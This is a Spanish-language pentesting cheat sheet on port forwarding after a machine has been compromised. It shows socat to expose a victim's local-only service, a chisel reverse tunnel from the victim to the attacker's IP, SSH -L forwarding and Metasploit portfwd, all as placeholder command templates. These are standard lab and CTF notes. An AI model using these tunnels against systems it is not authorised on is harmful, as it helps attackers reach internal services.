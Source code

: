 ```yaml
---
title: "Local Port Forwarding"
layout: "single"
category: "Varios"
slug: "varios/local-port-forwarding"
date: "2025-09-30"
---
```


### Socat (EL MAS INTERESANTE)
Viene preinstalado con linux, es muy interesante, ya que una vez obtenido el acceso a la máquina, si queremos exponer un puerto que antes no lo estaba, por ejemplo el 8080 (solo expuesto para la 127.0.0.1). 
De esta manera, directamente estamos exponiendo un puerto con la ip de la víctima que antes no estaba.

*Con otras herramientas lo enviaríamos el puerto al "localhost" del atacante. *

##### EJEMPLO PRÁCTICO
En la víctima está el servicio librenms con el puerto 8080 que solo se puede acceder desde el localhost de la víctima. Hay un exploit para librenms y necesito exponer ese puerto para poderlo explotar.

```bash
### EL PUERTO 8080 QUE SOLO ESTABA EXPUESTO LOCALMENTE, AHORA TAMBIÉN SE VERÁ POR EL PUERTO 5000 QUE ESCUCHARÁ PETICIONES DESDE FUERA DEL "LOCALHOST"
socat TCP-LISTEN:5000,fork,reuseaddr tcp:127.0.0.1:8080

bastaría con acceder a la url http://<ip_victima>:5000
 ```

### Chisel

En el atacante:
```bash
chisel server --reverse -p <puerto_escucha>
```

en la víctima:
```bash
chisel client <ip_atacante>:<puerto_escucha_del_atacante> R:<puerto_que_queremos_exponer>
```

**Si estamos por ejemplo queriendo exponer el 3306 de la víctima, y estamos a la escucha por el 1234 del atacante, realmente se nos está enviando el 3306 al atacante**

### Con SSH
Cuando tenemos acceso a una máquina, hay servicios que por algun motivo solo están corriendo para el "localhost". A veces nos interesa acceder a ese servicio ya que puede ser un panel web de administración, por ejemplo.

Supongamos una máquina que corre un servicio web en el puerto 9999 y lo queremos ver desde nuestro equipo en el puerto 8080.

```bash
ssh usuario@ip -L 8080:localhost:9999

# -L especifica redirección de puertos y funciona así
# local_port:remote_host:remote_port


```

Ahora basta con dirigirnos al navegador web de nuestra máquina atacante y dirigirnos a la URL **http://localhost:8080**

**Para Simplificar lo mejor es que tanto el puerto local como el remoto sean iguales, pero no siempre se podrá, porque puede que tengamos ese puerto ocupado**

### Metasploit portfwd
```bash
portfwd add -l [puerto_local] -p [puerto_remoto] -r [IP_remota]
```





